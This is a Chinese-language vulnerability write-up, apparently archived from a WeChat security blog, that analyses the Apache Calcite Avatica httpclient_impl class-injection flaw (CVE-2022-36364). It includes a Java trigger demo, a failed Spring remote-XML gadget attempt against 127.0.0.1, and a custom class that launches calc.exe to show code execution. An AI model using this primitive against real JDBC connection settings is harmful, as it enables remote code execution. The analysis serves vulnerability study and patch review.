










# Apache Calcite Avatica 远程代码执行 CVE-2022-36364

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可控httpclient_impl连接参数、classpath已有URL构造器副作用类；作者只人为加入CustomHttpClient演示
- 证据范围：诚实记录Spring String构造器不匹配失败和找不到实用gadget，后续自制类只证明原语，不是现成应用完整RCE

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 固定1.21.0测试但无完整影响/修复版本
- new URL("url")是无协议占位会先失败，需明确替换
- 接口AvaticaHttpClient应说实现接口而非子类
- AI回答不能作为漏洞事实来源，保留补丁/源码证据及模拟边界

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 标准云  蚁景网络安全   2025-02-08 09:31  
  
前段时间看到Apache Calcite Avatica远程代码执行漏洞 CVE-2022-36364 在网上搜索也没有找到相关的分析和复现文章，于是想着自己研究一下，看能不能发现可以利用的方法。  
  
首先利用一下最近比较热门的 Deepseek ，询问他是否清楚漏洞相关的信息。  
  
  
  
  
  
通过回答我们可以了解到这个漏洞的概况，具体漏洞的版本，以及漏洞产生的原因。  
## 漏洞简介  
  
Apache Calcite Avatica JDBC 驱动程序根据通过 httpclient_impl 连接属性提供的类名来创建 HTTP 客户端实例；但是在驱动程序实例化之前不会验证该类是否实现了预期的接口，这样一来就会导致可以通过调用任意类来执行代码。  
  
执行这个漏洞并造成一定的危害性，还需要两个先决条件：  
- 必须拥有控制 JDBC 连接参数的权限  
  
- 类路径中有一个具有 URL 参数和执行代码能力的函数（目前需要自己构造）  
  
## 漏洞复现&分析  
  
简单点，通过 maven 来创建漏洞环境  
```
        <!-- https://mvnrepository.com/artifact/org.apache.calcite.avatica/avatica -->
        <dependency>
            <groupId>org.apache.calcite.avatica</groupId>
            <artifactId>avatica</artifactId>
            <version>1.21.0</version>
        </dependency>
```  
  
创建完成漏洞环境后，我们就需要来编写一段代码想办法触发这个漏洞，我个人的建议是通过对比代码补丁，一般来说修复完成代码后，总会写一个测试类来进行测试  
  
  
```python
import org.apache.calcite.avatica.BuiltInConnectionProperty;
import org.apache.calcite.avatica.ConnectionConfig;
import org.apache.calcite.avatica.ConnectionConfigImpl;
import org.apache.calcite.avatica.remote.AvaticaHttpClient;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactory;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl;
import java.net.URL;
import java.util.Properties;

public class test {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        props.setProperty(BuiltInConnectionProperty.HTTP_CLIENT_IMPL.name(),"className");
        URL url = new URL("url");
        ConnectionConfig config = new ConnectionConfigImpl(props);
        AvaticaHttpClientFactory httpClientFactory = new AvaticaHttpClientFactoryImpl();
        AvaticaHttpClient client = httpClientFactory.getClient(url, config, null);
    }
}
```  
  
这样一来我们就编写了一个漏洞 Demo  calssName 和 url 的值是我们可以操作控制的，我们进行调试分析一下  
  
  
  
org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#getClient  
  
  
  
这个地方我们就注意到了最后调用 instantiateClient 来处理的两个参数 className 和 url 一个来自于直接传参，另一个来自于 config.httpClientClass() 会从 config 对象中获取 HTTP 客户端的实现类名称，并将其作为一个 String 返回  
  
  
  
‍  
  
所以当参数传入到 org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#instantiateClient 其中的两个参数 className 和 url 都是我们可以控制的  
  
  
  
不需要向下继续调试，我们就看到了关键代码 constructor.newInstance(Objects.requireNonNull(url));  
  
这样一来我们就可以通过控制 className 和 url 来实现调用任意类，但是这个类的必须有 URL 参数的处理  
  
刚开始想到的方法是  
  
利用 spring 中的类构造函数加载远程配置实现 RCE  
- org.springframework.context.support.ClassPathXmlApplicationContext  
  
```python
import org.springframework.context.support.ClassPathXmlApplicationContext;
public class JXpathDemo {
    public static void main(String[] args) {

        String s = "http://127.0.0.1:8080/bean.xml";
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext(s);
    }
}
```  
  
似乎如此一来就满足了条件，我们先试试  
  
  
  
爆出了一个错误，我们注意到 lassPathXmlApplicationContext 类没有接收 java.net.URL 参数的构造方法。ClassPathXmlApplicationContext 类的构造方法接收的是 String 类型的路径，通常是用于加载 Spring 配置文件的路径。  
  
  
  
所以这种利用方式适用于很多种情况 Apache Commons JXPath 远程代码执行、PostgresQL JDBC Driver 任意代码执行 等，但是并不适配当前的环境。(目前还没有找到合适的类来触发利用这种漏洞)  
  
为了进一步体现危害性，我自己创建一个类来体现  
```python
import java.net.URL;

public class CustomHttpClient {
    private URL url;

    // 构造函数，接受一个 URL 类型的参数
    public CustomHttpClient(URL url) throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}


```  
  
  
## 漏洞修复  
  
通过对比我们发现对传入的类进行了控制，限定必须属于AvaticaHttpClient 的子类  
  
https://github.com/apache/calcite-avatica/commit/0c097b6a685fc1f97f151505a219976f15ed0c4c?diff=split&w=0  
  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
